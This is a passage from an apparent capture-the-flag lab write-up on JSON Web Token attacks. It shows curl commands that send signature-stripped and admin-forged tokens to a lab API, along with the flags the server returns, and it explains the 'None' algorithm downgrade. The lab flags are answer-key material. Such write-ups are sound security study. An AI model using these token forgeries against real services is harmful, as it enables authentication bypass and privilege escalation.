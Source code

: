 ```
}

#----- update verify.sh 
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.' http://10.10.35.117/api/v1.0/example2?username=user

# run verify.sh
{
  "message": "Welcome user, you are not an admin"
}

# back to jwt.io > change admin: 0 to 1
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.q8De2tfygNpldMvn581XHEbVzobCkoO1xXY4xRHcdJ8

#----- update verify.sh 
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.' http://10.10.35.117/api/v1.0/example2?username=admin

# run verify.sh
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}

flag for example 2
THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}

```

Downgrading to None

Another common issue is a signature algorithm downgrade. JWTs support the `None` signing algorithm, which effectively means that no signature is used with the JWT. While this may sound silly, the idea behind this in the standard was for server-to-server communication, where the signature of the JWT was verified in an upstream process. Therefore, the second server would not be required to verify the signature. However, suppose the developers do not lock in the signature algorithm or, at the very least, deny the `None` algorithm. In that case, you can simply change the algorithm specified in your JWT as `None`, which would then cause the library used for signature verification to always return true, thus allowing you again to forge any claims within your token.



### example 3

Authenticate to the API to receive your JWT and then verify your user. To perform this attack, you will need to manually alter the  the `alg` claim in the header to be `None`. You can use [CyberChef](https://gchq.github.io/CyberChef/) for this making use of the URL-Encoded Base64 option. Submit the JWT again to verify that it is still accepted, even if the signature is no longer valid, as changes have been made. You can then alter the `admin` claim to recover the flag.

step 1 authenticate to the API
```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://MACHINE_IP/api/v1.0/example3


{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0._yybkWiZVAe1djUIE9CRa0wQslkRmLODBPNsjsY8FO8"
}

```
